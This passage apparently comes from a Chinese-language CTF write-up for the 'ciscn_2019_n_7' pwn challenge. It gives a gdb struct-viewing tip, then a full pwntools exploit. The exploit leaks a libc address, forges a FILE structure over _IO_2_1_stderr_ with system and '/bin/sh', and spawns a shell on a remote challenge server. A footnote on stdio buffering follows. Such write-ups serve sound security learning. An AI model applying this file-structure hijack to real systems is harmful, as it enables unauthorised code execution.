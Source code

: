 **调试查看结构体**：

```shell
p *((struct [结构体类型]*)[地址])
```

#### EXP

```python
from pwn import *
context(log_level='debug')#,terminal=['tmux','sp','-h'])

#p = process("./ciscn_2019_n_7")
p = remote("node3.buuoj.cn",28957)
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF('./libc-2.23.so')
elf = ELF("./ciscn_2019_n_7")

def command(id):
    p.recvuntil("-> \n")
    p.sendline(str(id))
def edit(name, content):
    command(2)
    p.recvuntil("New Author name:\n")
    p.sendline(name)
    p.recvuntil("New contents:\n")
    p.send(content)

command(666)
puts_addr = int(p.recv(14),16)
log.info("puts_addr:"+hex(puts_addr))
libc_base = puts_addr-libc.sym['puts']
log.info("libc_base:"+hex(libc_base))

# IO_list_all=libc_base+libc.sym['_IO_list_all']
# log.info("IO_list_all:"+hex(IO_list_all))
IO_2_1_stderr=libc.sym['_IO_2_1_stderr_']+libc_base
log.info("IO_2_1_stderr:"+hex(IO_2_1_stderr))
system=libc_base+libc.sym['system']
log.info("system:"+hex(system))


command(1)
p.recvuntil(": \n")
p.sendline(str(0xf8))
p.recvuntil(":\n")
payload = 'a'*8 + p64(IO_2_1_stderr)
p.send(payload)

#gdb.attach(p,"b *$rebase(0xb02)")

#define writebase_offset 0x20   ->0
#define writeptr_offset 0x28    ->1
#define mode_offset 0xc0        ->0
#define vtable_offset 0xd8      ->system&onegadget

payload = '/bin/sh\x00'.ljust(0x20,'\x00') + p64(0) + p64(1)#0x30
payload += p64(0)*4 + p64(system)*4#p64(libc_base+0x4526a)*4#0x50-0x70
payload = payload.ljust(0xd8, '\x00')
payload += p64(IO_2_1_stderr+0x40)
edit('a\n', payload)

command(4)

p.sendline('exec 1>&0')
```

[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）